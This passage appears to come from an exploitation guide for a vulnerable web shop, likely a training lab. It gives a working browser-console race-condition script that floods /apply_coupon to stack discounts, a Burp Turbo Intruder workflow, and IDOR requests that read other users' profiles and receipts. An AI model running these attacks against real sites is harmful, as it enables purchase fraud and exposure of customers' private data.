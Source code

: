 ### Browser Console Exploit
```javascript
// Apply SAVE10 coupon 15 times concurrently
console.log("🚀 Starting Race Condition Attack...");
Promise.all(Array(15).fill().map((_, i) => 
    fetch('/apply_coupon', {
        method: 'POST',
        body: 'coupon_code=SAVE10',
        headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        credentials: 'same-origin'
    }).then(r => console.log(`Request ${i+1}: HTTP ${r.status}`))
)).then(() => {
    console.log("🚨 RACE CONDITION COMPLETE!");
    setTimeout(() => location.reload(), 1000);
});
```

### Python Script Exploit
```bash
python apply_coupon_race_exploit.py
```

### Turbo Intruder (Burp Suite)
1. Capture POST /apply_coupon request
2. Send to Turbo Intruder
3. Use script: `turbo_intruder_race_condition_manual.py`

### Expected Results
- Multiple discount applications
- Stacked discounts in session
- Items become FREE or give money back
- SAVE10 applied 15x = $180 discount on $80 item!

---

## 5. Insecure Direct Object References (IDOR)

### 🎯 Targets: Multiple endpoints

### User Profile IDOR
```bash
# Access other users' profiles
GET /profile/1  # Admin profile
GET /profile/2  # Another user's profile
```

### Order Receipt IDOR
```bash
# Access any order receipt
GET /receipt/1
GET /receipt/2
GET /receipt/100
```

